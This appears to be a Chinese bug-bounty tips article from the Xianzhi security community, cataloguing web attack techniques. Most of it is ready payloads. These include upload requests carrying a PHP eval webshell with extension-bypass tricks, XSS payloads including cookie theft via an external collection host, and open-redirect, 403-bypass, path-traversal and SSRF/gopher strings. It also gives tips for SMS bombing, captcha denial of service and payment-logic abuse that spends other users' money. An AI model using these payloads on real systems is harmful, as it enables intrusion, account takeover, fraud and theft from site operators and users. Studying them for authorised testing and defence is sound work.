







# src 挖掘技巧总结分享 - 先知社区

### src 挖洞技术分享

```plain
src推荐刚入门的新手首选公益src如漏洞盒子、补天src，因为漏洞盒子收录范围广，只要是国内的站点都收入，相比其它src平台挖掘难度非常适合新手。后续可以尝试先从一些小的src厂商入手。
首先是熟能生巧，我一开始挖洞的时候，是先从教育edusrc,cnvd平台进行挖掘漏洞，但这种打法如果放到src，我打的很吃力，因为前者基本都是拿网上公开的nday打，而后者全是技巧和思路。
在挖掘src的同时，必须读懂src平台的规则，千万不得越红线，同时也要熟悉src平台的收录规则，收录那些漏洞，不然挖到后发现被忽略，这样就前功尽弃了
```

## 文件上传

##### 嵌套 xss 语句

svg、pdf、html、xml

```plain
<!DOCTYPE html>
<html>
    <head>
        <title></title>
        <meta charset="utf-8">
        <script type="text/javascript">
            alert("testxss"); 
        </script>
    </head>
    <body>
```

\**svg*

```plain
<svg xmlns="http://www.w3.org/2000/svg" version="1.1">
   <circle cx="100" cy="50" r="40" stroke="black" stroke-width="2" fill="red" />
   <script>alert(1)</script>
</svg>

<?xml version=”1.0" standalone=”no”?>
<!DOCTYPE svg PUBLIC “-//W3C//DTD SVG 1.1//EN” “http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd"><svg version=”1.1" baseProfile=”full” xmlns=”http://www.w3.org/2000/svg">
<polygon id=”triangle” points=”0,0 0,50 50,0" fill=”#009901" stroke=”#004400"/>
<script type=”text/javascript”>
alert(document.cookie);
</script>
</svg>
```

存在文件上传的地方， 嵌套 xss 语句

将准备好了的图片 xss 上传，imge/png ,html.html.png

svg 重定向

```plain
<code>
<?xml version="1.0"encoding="UTF-8"standalone="yes"?>
<svg
onload"window.location='http://www.example.com'"
xmlns="http://www.w3.org/2000/svg">
</svg>
</code>
```

##### 路径可控

当上传的路径时候，如果不能上传解析路径，则可以尝试是否存路径可控

```plain
则原来是user_apply_file
修改后上传的路径为1/23/456/user_app_file
```

#### 绕过

###### 黑名单

```plain
phtml、pht、php、php3、php4、php5
```

###### 后缀大小写

此方法适合 **windows** 环境下，如果是 Php, 可以当做 php 来解析

###### 后缀名空绕过

```plain
那么php和php ，当然是不⼀样的
# filename="shell.png "
```

###### 后缀名为点绕过

```plain
#**windows**中有一个特性，会自动去掉后缀名的
------WebKitFormBoundary0BAvi6S3ETKPlJw4
Content-Disposition: form-data; name="upload_file"; filename="shell.php."
Content-Type: image/png
<?php eval($_REQUEST[8]);?>
------WebKitFormBoundary0BAvi6S3ETKPlJw4
```

###### ::$DATA

```plain
#windows文件流绕过
------WebKitFormBoundary6iEJqkiHLxaG6mxM
Content-Disposition: form-data; name="upload_file"; filename="shell.php:DATA"
Content-Type: image/png
<?php eval($_REQUEST[8]);?>
------WebKitFormBoundary6iEJqkiHLxaG6mxM
```

###### 构造文件后缀绕过

```plain
#file_ext = strrchr($file_name, '.')； 是检测末尾最后是否是. (很明显是为了防御双写.)我们可以写⼀个空
------WebKitFormBoundary3b4MZBZoOnzEpoeC
Content-Disposition: form-data; name="upload_file"; filename="shell.php. ."
Content-Type: image/png
<?php eval($_REQUEST[8]);?>
------WebKitFormBoundary3b4MZBZoOnzEpoeC
```

###### 双写绕过

```plain
#$file_name = str_ireplace($deny_ext,"", $file_name);这⾥的意思就是讲检测到的危险字符替换为空
------WebKitFormBoundary3b4MZBZoOnzEpoeC
Content-Disposition: form-data; name="upload_file"; filename="shell.pphphp"
Content-Type: image/png
<?php eval($_REQUEST[8]);?>
------WebKitFormBoundary3b4MZBZoOnzEpoeC
```

###### %00 截断

```plain
#他会⾃动重命名， $img_path = $_GET['save_path']."/".rand(10,99).date("YmdHis").".".$file_ext;这⾥很明显使⽤了直接的拼接
POST /Pass-11/index.php?save_path="'/upload/shell.php%00 HTTP/1.1
Host: 59.63.200.79:8016
-----WebKitFormBoundaryZIDuWzIommKYBtmZ
Content-Disposition: form-data; name="upload_file"; filename="shell.jpg"
Content-Type: image/jpeg
<?php eval($_REQUEST[8]);?>
------WebKitFormBoundaryZIDuWzIommKYBtmZ`
```

#### IIS6 解析漏洞

##### 分号截断

使用分号进行截断，访问的时候要访问带分号的全名

```plain
test.asa;1.gif
```

##### 目录名代.asp

目录名代.asp, 目录内的文件就会被当做 asp 文件执行

```plain
123.asp/12.jpg
```

##### CGI 解析漏洞

在文件名后加 /.php, 文件就会被当做 php 截止

```plain
1.jpg/.php
```

## 逻辑漏洞

#### 登陆口总结

**轰炸、注册、验证码爆破、验证码相关、nday、弱口令、ddos、注入、枚举、越权、二维码劫持、js、url、返回包、信息泄露、rce、xss、ssrf、sql**

##### 短信轰炸

```plain
可以使用并发、url编码进行、重放
手机号码前后加空格，86，086，0086，+86，0，00，/r,/n, ，以及特殊符号等
```

mobile=1xxxxxxxxxx&openid=

%09 TAB 键（水平）、%0a 新建一行、**%0c 新的一页**、%0d return 功能、**%0b TAB 键（垂直）**、% a0 空格

###### 验证码 DOS

```plain
&height=1111&h=1111&size&1111&ma
```

##### 验证码回显

邀请码泄露

##### 绑定关系

> ```plain
> 如使用1的手机号的验证码，如输入2的手机的验证码，来修改密码或者登录
> ```

```plain
修改返回包
```

> ```plain
> flase--true
> ```

##### 双写

> ```plain
> 在注册用户的时候，输入两个手机号：mobile=123456,123456
> ```
> 
> ```plain
> 在删除用户信息的时候，如果用户的账号是通过uid来判断的，可以尝试是否能双写
> ```

##### 奇葩绕过

> ```plain
> 输入需要找回的用户
> 在下发手机验证码时候用burp将手机改为自己的手机号
> 输入我们收到的验证码，提交时将手机修改为自己的手机号
> 然后输入新的密码
> ```

重置链接

```plain
重置密码，会将链接发送到邮箱中，可以通过邮箱base64解码，来判断账号
```

js 验证

查看源代码是否有信息

##### 任意用户注册

> ```plain
> 可以利用恶意注册用户，来消耗系统资源        
> #验证码和手机号没有做绑定
> #使用一个正确的手机号获取一个验证码，输入验证码后，将原来的手机号换成其他的
> ```

##### 二维码登录劫持

很多网站都会有二维码登录，扫描后直接就可以登录对应的账号，但是在二维码扫描后没有进行再次确认，就会导致二维码劫持，可以将二维码转换成 url 后进行发送给好友进行点击

接管账号

#### 密码重置

###### 密码为空

> ```plain
> name=lili&oldpass=1111111&newpass=123456&newpass=123456
> name=lili&newpass=123456&newpass=123456       #将密码设置为空
> ```

###### token 票据

> 由于设计缺陷，会预设类似于 token 的效验票据，可能导致 admin 票据任意密码重置

```plain
将access0-reset-ticket的票据设置到自己需要设置重置密码的票据
```

###### api 接口重置密码

> ```plain
> 如果在登录框中没有可利用点，就尝试在js文档中，查看是否有接口路径
> #  /BaseInfo/SystemSet/AlterPassword.html?ID=1
> 这里的id等于1，则是管理员账户的重置密码
> ```

###### 短信验证码

> ```plain
> 在任意密码重置的时候，输入的手机号码是B账户的，发送请求包
> burp中拦截请求包，在请求包中修改手机号码为A的手机的账户
> 在A的手机上接受到验证码后，将验证码输入到当时重置密码的时候B账户
> 如此就可以成功进入到B账户的重置密码的界面了
> ```

#### 业务

###### **业务回退**

```plain
这一步的时候，将填写密码的url复制到其它浏览器中，如果还是可以能修改密码，则存在业务回退‘、
```

###### **业务查询**

业务上线一般存在业务查询范围中，如果设定了指定的查询天数，如果通过修改的参数，来实现可以查看的天数，则存在该逻辑漏洞

###### **优惠卷**

```plain
# 第一反应就是遍历、并发
如果并发不行，就可以尝试将浏览器回退前面一个网页 然后继续领取
或者是修改本地的时间
```

###### 限制地理位置

这里可以通过 burp 抓包工具抓包，查看调用的什么接口，让后观察请求的内容是否有地理位置，如果存在，则使用百度或者其他地理位置查询，查询到坐标后，进行修改。

#### 支付漏洞

-   **签约漏洞**

比如首月多少 6，第二个月开始 20，尝试在购买的时候，分别使用两个支付方式支付，然后都支付后，发现是否使用两个 6 元支付，是否能获得两个月的

-   **购买年限**
    
    > ```plain
    > 修改年限的数字、拆分购买：count=1year-------count=1day  -----根据场景来替换
    > ```
    
-   **负数购买**
    
    修改数量、金币为负数、修改 uid 为其他人的，尝试越权花别人钱
    
-   **支付续费漏洞**
    
    ​
    
    > ```plain
    > 比如，先购买黄金会员，在购买铂金会员，查看是否是两个月的铂金会员
    > 不认识的参数，逐个去翻译，去了解，根据经验看这个点
    > 一分钱不花东西拿走：实现方式：数量改成0、金额修改、支付类型修改
    > ```
    
-   **付费简历**
    
    > ```plain
    > 越权：前端越权、后端越权   #灰色（disable)    电子书、禁止下载、登录口
    > ```
    

#### 并发

Turbo Intruder 是一个 BurpSuite 插件，用于发送大量 HTTP 请求并分析结果

测试并发漏洞

并发与爆破的区别是，并发是同一个时间发送的请求，在上方框中，插入一个 **x-req:%s**

在 burp 中设置需要使用的点和 py 脚本

[](https://xzfile.aliyuncs.com/media/upload/picture/20240327085322-696d4f9c-ebd4-1.png)

在 30 个连接中各放入一个请求，但会留下最后一个字节不发送出去，然后在第 15 行处等待 30 个连接中的请求都准备好后一起发送最后一个字节，这样服务器就会同时处理 30 个请求，从而达到了并发测试的目的。

#### 任意文件下载

在含有下载的参数中：file=../../../../etc/passwd

重点：path、filename，有点像目录遍历，跨目录、../../ 超出限制等。下载或读取其他文件

```plain
原来是：path=edu.gi
path=/etc/passwd
```

#### 越权

在返回包中，查看是否存在一个数组为空的情况，如果存在则一般就会有越权

越权删除

```plain
如果在请求包中删除的是id，如果单个id不能删除的话，可以进行尝试#{454,568}
```

#### url 跳转

白名单

> ```plain
> url=http://example.com@evil.com
> url=http://example.com/evil.com
> ```

从参数入手:

> ```plain
> radirect
> redirect_to
> redirect_url
> url
> jump
> jump_to
> target
> to
> link
> linkto
> domain
> ```

绕过技巧

> ```plain
> #斜线绕过
> url=/www.baidu.com       
> //www.baidu.com
> 
> #符号绕过
> url=https://www.xx.com@www.baidu.com       
> https://www.xx.com#www.baidu.com 
> https://www.xx.com/www.baidu.com          
> https://www.xx.com?www.baidu.com 
> https://www.xx.com\\www.baidu.com     
> url=.evil.com
> \.
> ```

```plain
/%09/google.com
/%5cgoogle.com
//www.google.com/%2f%2e%2e
//www.google.com/%2e%2e
//google.com/
//google.com/%2f..
//\google.com
/\victim.com:80%40google.com
#可能的开放重定向参数
?url=http://{target}
?url=https://{target}
?next=http://{target}
?next=https://{target}
?url=https://{target}
?url=http://{target}
?url=//{target}
?url=$2f%2f{target}
?next=//{target}
?next=$2f%2f{target}
?url=//{target}
?url=$2f%2f{target}
?url=//{target}
/redirect/{target}
/cgi-bin/redirect.cgi?{target}
/out/{target}
/out?{target}
/out?/{target}
/out?//{target}
/out?/\{target}
/out?///{target}
?view={target}
?view=/{target}
?view=//{target}
?view=/\{target}
?view=///{target}
/login?to={target}
/login?to=/{target}
/login?to=//{target}
/login?to=/\{target}
/login?to=///{target}
```

TRACE

#### 绕过 403 和 401

1.  ```plain
    1. 通过添加请求头：X-Originating-IP，X-Remote-IP，X-client-IP，X-Forwarded等。
         有些公司会为那些能够访问敏感数据的人将IP列入白名单。这些报头将IP地址作为一个值，如果提供的IP与它们的白名单中的IP相匹配，您就可以访问资源。
    2. 使用unicode字符：尝试插入unicode字符以绕过防御。例如，尝试% = ca、% = sa和许多其他 (检查这里或这里)。因此，如果/cadmin被阻止，请尝试访问%dmin。
    3. 如果GET /admin返回403 Forbidden，尝试GET /accessible (任何可访问端点)并添加以下任何HTTP头:
       X-Original-URL : /admin
       X-override-URL : /admin
       X-Rewrite-URL : /admin
    4. 尝试不同的有效负载如果GET /admin返回403 Forbidden，尝试访问:
       /accessible/..;/admin
       /.;/admin
       /admin;/
       /admin/-
       /./admin/./
       /admin?param
       /%2e/admin
       /admin#
    5. 转换请求方法：将方法从GET改为POST，看看是否得到了一些东西。
    6. 访问真实IP：通过网站的IP访问该网站以获取被禁止的内容。
    7. Fuzzing：通过扫描被禁止内容的下一级目录或文件。
    ```
    

## 信息泄露

**AK/SK 泄露**

```plain
AccessKeyId
SecretAccessKey
```

#### git 源码泄露

利用工具 githack.py 利用工具将源码下载下来，**python githack.py [http://ip/.git/](http://ip/.git/)** 下载下来

```plain
git log  #查看历史配置
git diff   5341311234656321.321 #查看配置信息
```

#### svn 信息泄露

**.svn/entries** [https://github.com/admintony/svnExploit](https://github.com/admintony/svnExploit)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240327085429-91132be8-ebd4-1.png)

#### 其它泄露

> ```plain
> /.bash_history        #泄露的是历史操作命令
> /debug/pprof/cmdline
> /.git/index/
> .svn/entries
> /.DS_Store
> /graphql
> /tenant
> /sources
> actuator/env/
> /swagger-ui.html...
> ```

#### druid 未授权访问

> ```plain
> # druid未授权访问
> ip/druid/index.html ##Druid Index
> ip/druid/sql.html#Druid sql监控页面
> ip/druid/weburi.html#Druid Web URI监控页面
> ip/druid/websession.html#Druid Web Session监控页面
> json:ip/druid/weburi.json ##Druid Web URI json
> ip/druid/websession.json ##Druid Web Session json
> Druid登录接口：ipl/druid/login..html#Druid登录认证页面Druid:未授权访问路径
> ```

#### 授权

在一些平台中，如果存在授权手机号的时候，可以通过 burp 抓包，然后来查看是否有返回的信息，因此可以遍历手机号查看是否有遍历

#### 隐私合规

通过弹窗，注册 app 首次运行

```plain
隐私政策中点不进去或者点进去404
注册同意默认就勾了
隐私政策点进去是乱码
```

报告

```plain
标题：xxapp1.1.1版本存在隐私合规用户自动同意隐私政策漏洞
内容
修复建议：
```

**拒绝提供不必要信息直接退出 app 的时候，也算是隐私合规**

#### 匿名头像

在评论处如果看到有匿名评论，可以通过抓包抓取到用户的评论，查看他对应的 **id 号**

可以将 id 号拼

#### 地图 key

```plain
高德webapi：
 https://restapi.amap.com/v3/direction/walking?origin=116.434307,39.90909&destination=116.434446,39.90816&key=这里写key

 高德jsapi：
 https://restapi.amap.com/v3/geocode/regeo?key=这里写key&s=rsv3&location=116.434446,39.90816&callback=jsonp_258885_&platform=JS

 高德小程序定位：
 https://restapi.amap.com/v3/geocode/regeo?key=这里写key&location=117.19674%2C39.14784&extensions=all&s=rsx&platform=WXJS&appname=c589cf63f592ac13bcab35f8cd18f495&sdkversion=1.2.0&logversion=2.0

　百度webapi：
 https://api.map.baidu.com/place/v2/search?query=ATM机&tag=银行&region=北京&output=json&ak=这里写key

 百度webapiIOS版：
 https://api.map.baidu.com/place/v2/search?query=ATM机&tag=银行&region=北京&output=json&ak=这里写key=iPhone7%2C2&mcode=com.didapinche.taxi&os=12.5.6

 腾讯webapi：
 https://apis.map.qq.com/ws/place/v1/search?keyword=酒店&boundary=nearby(39.908491,116.374328,1000)&key=这里写key
```

存在 xx 地图 api 接管漏洞，攻击者可利用抓取的 xx 地图 ak 值任意调用属于 xx 的 xx 地图的 api 额度造成 XX 的 xx 地图 api 额度被恶意盗用，消耗等。当额度被消耗完毕后，会造成地图加载异常，定位服务无法使用等，影响用户体验。

#### 未授权

jsfind

将跑出来的东西放到 burp 里面跑，尝试访问一下，看是否存在未授权访问

```plain
在burp中添加以下字段
？pageNum=1&pageSize=10
```

## 拒绝服务

##### 资源生成大小可控

此类场景存在：图片验证码、二维码 、找回密码

```plain
关注一下接口地址：https://attack/validcode?w=130&h=53
参数值：w=130&h=53，我们可以理解为生成的验证码大小长为130，宽为53
#可以根据修改参数的大小来判断服务器返回的时间 
height=1111
h=1111
size=1111
margin=1111
```

## CSRF

#### 退出

在保存头像的时候通过抓包，然后修改头像的储存地址，将其修改为**登录退出的 url**

> ```plain
> portrait=http://baidu.com     ====>  http://baidu.com/logout
> ```

```plain
当其他的人在评论区访问后，浏览器会加载该头像的地址，可以直接造成用户直接退出
```

###### 绕过：

如果检测了 referer 头，可以尝试一下方案

```plain
删除refere头
将http请求头的目录名字设置为网站检测的fefere头
配合存储xss绕过严谨
```

## XSS

### xss 解析标签

函数：alert (),confirm (),prompt ()

```plain
可以在url后面：?url=javascript:alert'1' 
<script>alert('X');</script>
//
//(使用onfocus属性)


 使用eval函数执行代码
//<a href="https://www.example.com">Visit Example Website</a>
//<a onmouseover="console.log('Mouse over the link')">Hover me</a>(使用onmouseover属性)
<a href="javascript:alert('XSS Attack');">Click me </a>
<a style="color:red;" onmouseover="alert('XSS Attack')">Hover me</a>
//<iframe src="https://www.example.com" width="600" height="400"></iframe>
<iframe src="javascript:alert('XSS Attack');"></iframe>
//<svg width="100" height="100">
    <circle cx="50" cy="50" r="40" stroke="black" stroke-width="3" fill="red" />
</svg>
<svg onload="alert('XSS Attack')"></svg>
<body onload="alert('XSS Attack')"></body>
<body background="javascript:alert('XSS Attack')">
<body style="background-image: url(javascript:alert('XSS Attack'))">
<input type="text" onfocus="alert('XSS Attack');" />
//<div onmouseover="console.log('Mouse over the div')">Hover me</div>
<div onmouseover="alert('XSS Attack')">Hover me</div>
<table background="javascript:alert('XSS Attack')"></table>
<form action="javascript:alert('XSS Attack')">
    <!-- form fields go here -->
</form>
<input type="image" src="javascript:alert('XSS Attack')" />
<base href="javascript:alert('XSS Attack')">
```

### 反射性 xss 出现点

```plain
#搜索框
用户在搜索框中输入的关键词，如果没有正确过滤和转义用户输入，可能导致反射性xss
#url参数
如果应用没有对这些参数进行适当的处理，可能导致反射性xss
#表单提交
#评论和留言板
评论和留言板更容易导致存储型xss，但是在某些情况下，如果没有对功能点进行过滤和转义，可能导致反射性xss
#分页和排序
web应用可能使用rul参数进行分页和排序，如果没有对这些参数进行适当的过滤和转义，可能导致反射性xss
#数据可视化和报表
web应用可能使用用户输入的参数进行适当的过滤和转义，可能导致反射性xss
#路径导航
web应用可能在路径导航中包含用户输入的内容，如果没有正确处理这些输入，可能导致反射性xss
```

##### url 参数

[](https://xzfile.aliyuncs.com/media/upload/picture/20240327085533-b6f5df0e-ebd4-1.png)

在 url 参数中，尝试修改参数的值，然后查看**网页源代码中是否有参数值**，接着在尝试闭合绕过

##### 流程

```plain
参数->猜测每一个参数->查看源码->尝试闭合->进行测试<u>a</u>->猜测标签->事件->函数
```

### xss 头像

同上所诉，在修改头像保存位置，可以结合利用 xss 平台，修改为 xss 平台**获取 cookie**

> ```plain
> portrait=http://baidu.com     ====>  http://xss.xsscookie.com
> ```

### XSS 插件

首先先在 cmd 命令中，运行 phpantomjs.exe xss.js

[](https://xzfile.aliyuncs.com/media/upload/picture/20240401142850-1a3b5a24-eff1-1.png)

接着选择 payload

[](https://xzfile.aliyuncs.com/media/upload/picture/20240327085614-cf6c205c-ebd4-1.png)

## sql 注入

#### X-Forwarded-For 注入

他代表了客户端的真实 ip，通过修改的值就可以伪造 客户端 ip，如果程序中获取了这个值，然后带入到数据库中，就会造成 sql 注入

[](https://xzfile.aliyuncs.com/media/upload/picture/20240401142446-88e28d36-eff0-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240401142457-8f582d2e-eff0-1.png)

## rce

#### 登录位置

在用户输入账户和密码的时候，可以造成 rce

[](https://xzfile.aliyuncs.com/media/upload/picture/20240327085713-f296dc52-ebd4-1.png)

## js

##### api 接口泄露

查看 js 源码中，查看是否存在 api 的接口，如果存在如：/api/register/user 则可以尝试是否存在可以利用点，一般情况下就直接拼接 api 接口，如果返回报错了，**可以观察响应包中的内容**，进行猜测。

## ssrf

#### ssrf 伪协议利用

```plain
http://Web常见访问，如http://127.0.0.1
file://从文件系统中获取文件内容，如，file://etc/passwd
dict://字典服务器协议，访问字典资源，如，dict:///ip:6739/info:
sftp://SSH文件传输协议或安全文件传输协议
ldap://轻量级目录访问协议
t计tp://简单文件传输协议
gopher://分布式文档传递服务，可使用gopherus生成payload
```

#### 功能点

url 解析与重定向、图片上传与处理、文件上传与处理、webhook 功能、远程文件包含

```plain
<iframe src="http://6p076o.dnslog.cn">
```

#### 保存头像

> 点击保存头像，开启 burpsuite 抓包
> 
> [](https://xzfile.aliyuncs.com/media/upload/picture/20240327085807-13464348-ebd5-1.png)
> 
> 可以看到 avatar 的一个参数，采用的是请求其他地方的图片，此时我们对这条 URL 进行修改
> 
> 凭借 dnslog 并用 #注释掉后面的 URL 地址

#### 容易参生 ssrf 的参数

```plain
url：表示外部资源的url
redirect:用于重定向到外部资源的url
callback：表示回调uro
images：表示外部图片资源的url
source：表示外部资源的来源url
domain:表示要解析或访问的域名
link：表示外部资源的链接url
data：表示外部数据资源的url
webhook:表示用于第三方通知的第三方服务的url
```

#### 绕过的方法

1.  利用不同的 ip 表示法：尝试使用（十进制、八进制、十六进制）等绕过方法
    
2.  利用域名解析：使用特殊的域名或者子域名、如 localhost、127.0.0.1.xio.io 等
    
3.  利用 url 编码：尝试使用不同的 url 编码方式，如字符编码、双重编码等
    
4.  利用 url 解析差异：利用 web 应用程序和底层服务器之间 url 解析差异，如使用 @符号
    
    ```plain
    http://www.xxx.com@www.xxyy.com
    ```
    
5.  利于用 http 重定向：利用 http 重定向（如 301,302 跳转）将请求从外部资源访问到内部资源
    
    > ```plain
    > 攻击者在自己控制的服务器上设置一个HTTP302重定向。例如，当访问http://evi1.com/redirect'时，
    > 服务器将返回一个HTTP302响应，告知客户端重定向到目标内部资源，
    > 如'http://target-internal-service.local`。
    > ```
    

#### gppher 协议

Gopher 协议是 HTTP 协议出现之前，在 Internet 上常⻅且常⽤的⼀个协议。当然现在 Gopher 协议已经慢慢淡出 历史。 Gopher 协议可以做很多事情，特别是在 SSRF 中可以发挥很多重要的作⽤。利⽤此协议可以攻击内⽹的 FTP、 Telnet、Redis、Memcache，也可以进⾏ GET、POST 请求。这⽆疑极⼤拓宽了 SSRF 的攻击⾯

**协议格式**

```plain
gopher url 格式为：
gopher://<host>:<port>/<gopher-path>
<port> 默认为70。
<gopher-path> 其中格式可以是如下其中的⼀种
<gophertype><selector>
<gophertype><selector>%09<search> 
<gophertype><selector>%09<search>%09<gopher+_string>
```

整个 部分可以省略，这时候 \\ 也可以省略 为默认的 1。 是⼀个单字符⽤来表示 url 资源的类型，在常⽤的安全测试中发现不管这个字符是什么都不影响，只要有 就⾏了。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240401142328-5a6c8c72-eff0-1.png)

## CORS

**CORS**（Cross-Origin Resource Sharing）即跨域资源共享，是用于绕过 SOP（同源策略）来实现跨域资源访问的一种技术，是 HTML5 提供的一种机制。

当在请求头中加入

```plain
Origin:www.test.com
```

如果返回包中响应了

```plain
Access-Control-Allow-origin www.test.com
Access-Control-Allow-Credentials true
#因此就存在cors
```
